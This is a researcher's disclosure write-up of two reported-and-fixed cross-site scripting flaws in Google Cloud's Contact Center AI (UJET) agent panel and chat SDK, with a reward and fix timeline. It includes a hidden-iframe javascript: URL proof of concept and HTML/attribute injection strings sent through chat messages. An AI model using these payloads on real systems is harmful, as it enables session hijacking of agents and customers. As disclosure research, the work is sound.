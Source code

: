 ```yaml
---
title: CCAI
---
```


[Contact Center AI (CCAI)](https://cloud.google.com/solutions/contact-center-ai-platform) is a Contact Center as a Service platform from Google Cloud based of [UJET](https://ujet.cx/)  
The following was done as part of a [VRP grant](https://www.google.com/about/appsecurity/research-grants/) of $500, later increased by $1337

# Agent XSS

On the agents control panel there was an iframe with the location controlled by the URL parameter `cobrowseDomain`,
So you could get an XSS by navigating it to a `javascript:` URL... also no embedding protection.

```js
let f = document.createElement("iframe");
f.hidden = true;
f.src =
  "https://something.uc1.ccaiplatform.com/agent/?type=popup&popup=cobrowse&cobrowseDomain=javascript:alert(window.origin);%2F%2F";
document.body.appendChild(f);
```

# Client XSS

Using the chat message feature of Cloud Contact Center an agent could XSS the user on https://websdk.ujet.co by messaging `https://"onmousemove="alert(window.origin)"`  
This could also be done by setting a custom "Waiting for Agent Assignment Message" like `<img src=x onerror=alert(window.origin)>`  
Because the [SDK](https://cloud.google.com/contact-center/ccai-platform/docs/Guide/publication--en?hl=en) used a shared origin of `https://websdk.ujet.co` to render all chat sessions from Cloud Contact Center,  
Any website with there own chat could hijack a different websites chat session via the window opener.  
The origin was also trusted by [Cobrowse](https://cobrowse.io/) which is a feature of the SDK.

# Timeline

Reported agent xss on Nov 10, 2022 02:13AM (P2/S2)  
Marked as fixed on Jan 19, 2023 02:00AM  
Reported client xss on Nov 14, 2022 12:25PM (P2/S2)  
Blamed UJET on Nov 14, 2022 03:30PM  
Marked as fixed on Mar 10, 2023 07:10AM  
"cannot provide monetary compensation for CCAI errors reported under the grant" on Apr 18, 2023 10:55AM  
Swag rewarded on Apr 19, 2023 01:55PM
![Chat](https://ndevtk.github.io/writeups/chat.png)
